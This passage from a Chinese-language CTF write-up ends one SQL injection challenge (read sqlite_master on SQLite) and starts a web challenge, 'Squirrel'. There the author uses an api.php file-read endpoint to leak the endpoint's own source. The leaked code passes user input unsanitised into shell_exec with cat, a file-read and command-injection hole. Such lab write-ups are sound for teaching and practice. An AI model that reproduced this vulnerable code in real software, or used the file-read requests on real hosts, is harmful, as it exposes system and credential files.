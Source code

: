 ㄏㄏ，反正我也不會用sqlmap。第一次解開SQL-I的題目真的是好爽A_A

本題心得：遇到sqlite的題目，直接想辦法讀sqlite_master就好了。

### Web - Squirrel

一點進去發現一堆漂來漂去的松鼠，底下有一些看不懂的東西：

![squirrel](pic/squirrel.png)

直接看原始碼，他是透過`api.php`去讀主機上的`/etc/passwd`，看來可以讀所有檔案！？直接叫他讀`api.php`：

```
/api.php?get=api.php

{"output":"<?php\n\nheader('Content-Type: application\/json');\n\nif ($file = @$_GET['get']) {\n    $output = shell_exec(\"cat '$file'\");\n    \n    if ($output !== null) {\n        echo json_encode([\n            'output' => $output\n        ]);\n    } else {\n        echo json_encode([\n            'error' => 'cannot get file'\n        ]);\n    }\n} else {\n    echo json_encode([\n        'error' => 'empty file path'\n    ]);\n}\n"}
```
